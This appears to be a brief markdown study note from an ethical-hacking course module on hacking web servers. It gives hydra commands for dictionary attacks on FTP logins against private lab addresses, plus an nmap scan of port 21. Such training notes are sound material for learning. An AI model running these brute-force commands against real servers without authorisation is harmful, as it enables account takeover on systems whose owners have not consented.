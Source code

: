 # 13 - Hacking Web Servers

## Module 13 - Hacking Web Servers

### FTP Bruteforce with Hydra

* `hydra -L /root/Desktop/Wordlists/Usernames.txt -P /root/Desktop/Wordlists/Passwords.txt ftp://10.10.10.11`

### **Crack FTP Credentials using a Dictionary Attack**

* nmap -p 21 **\<Target IP>**
* **hydra -L usernames.txt -P passwords.txt ftp://10.10.10.10**
